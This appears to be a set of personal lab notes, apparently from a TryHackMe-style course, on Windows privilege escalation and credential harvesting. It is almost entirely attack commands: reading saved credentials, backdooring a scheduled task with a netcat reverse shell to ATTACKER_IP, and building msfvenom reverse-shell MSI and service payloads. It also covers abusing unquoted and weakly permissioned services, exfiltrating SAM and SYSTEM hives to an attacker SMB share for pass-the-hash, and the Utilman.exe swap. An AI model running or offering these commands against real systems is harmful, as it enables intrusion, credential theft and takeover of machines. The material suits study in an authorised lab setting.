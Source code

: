 #### Harvesting Password
  #### Powershell History　　－　in cmd
    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    // To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

  #### Saved Windows Credentials
    cmdkey /list
    //runas to view a username in the list, nad launch a cmd
    runas /savecred /user:xxx cmd.exe

  #### IIS Configuration
    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    or C:\inetpub\wwwroot\web.config

  #### Retrieve Credentials from Software: PuTTY
    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s  
      // Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
  #### Scheduled Tasks
    schtasks
    schtasks /query /tn vulntask /fo list /v //to view a particular task

    icacls c:\tasks\xxx  //to view the privi, F is full access

    //if yes we can modify it as a backdoor,
    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
    schtasks /run /tn vulntask  //run immediately
  
  #### AlwaysInstallElevated  
    msi files can be configured to run with higher privileges from any user account (even unprivileged ones)
      //enable below 2 values
    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    //msf create revershell msi, should also run the Metasploit Handler module configured accordingly
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

     msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

  #### win service - insecure permission on sercie executable -- msf requied for creating a reverse shell file 
    sc qc xxx // to check info of a particular service, we'll have the binary file path, the executed accountname.
    icacls Path:\xxx  //check the privi of this binary file of this serviice

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe //create shell file and transfer to the host
    move C:\Users\thm-unpriv\rev-svc.exe WService.exe  //raap[lace the binary file
    icacls WService.exe /grant Everyone:F  // grant full privi 
    nc -nvlp xxxx 

    sc stop xxxservice
    sc start xxxservice  //restart this service to trigger shell // PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.

  #### win service - Unquoted Service Paths - msf requied for creating a reverse shell file 
    sc qc "disk sorter enterprise"  
      DISPLAY_NAME       : Disk Sorter Enterprise  //spaces on the name of the "Disk Sorter Enterprise" folder
      //SCM doesn't know which of the following you are trying to execute:C:\MyPrograms\Disk.exe plus  Argument1:Sorter plus Argument1:Enterprise\bin\disksrs.exe
      or C:\MyPrograms\Disk Sorter.exe  plus  Argument1:Enterprise\bin\disksrs.exe
      or C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
    we put the revershell file on C:\\MyPrograms\\Disk.exe // we must have write privi to this path
     //most of the service executables will be installed under C:\Program Files or C:\Program Files (x86)
    //restart the service and get shell

   #### win service - Insecure Service Permissions -  msf requied for creating a reverse shell file 
     //check for a service DACL from the command line, you can use Accesschk.exe
       [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users  //SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
     accesschk64.exe -qlc xxx
     //generate reversehll file , grant privi,modify config of service 
     sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem  // localsystem is high privi of a local host.
  #### Windows Privileges - SeBackup / SeRestore
    whoami /priv
      SeBackupPrivilege             Back up files and directories  Disabled
      SeRestorePrivilege            Restore files and directories  Disabled
    reg save hklm\system C:\Users\THMBackup\system.hive
    reg save hklm\sam C:\Users\THMBackup\sam.hive

    //on attack host, set a smb server
      impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public share  //make sure impacket installed on kali

    C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
    C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

    impacket-secretsdump -sam sam.hive -system system.hive LOCAL
    impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.201.91.4

  #### Windows Privileges - SeTakeOwnership
    takeown /f C:\Windows\System32\Utilman.exe
    icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
    C:\Windows\System32\> copy cmd.exe utilman.exe
    //lock account, then click ease of access button , will get a shell with system
    
  
  #### Windows Privileges - SeImpersonate / SeAssignPrimaryToken
    RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
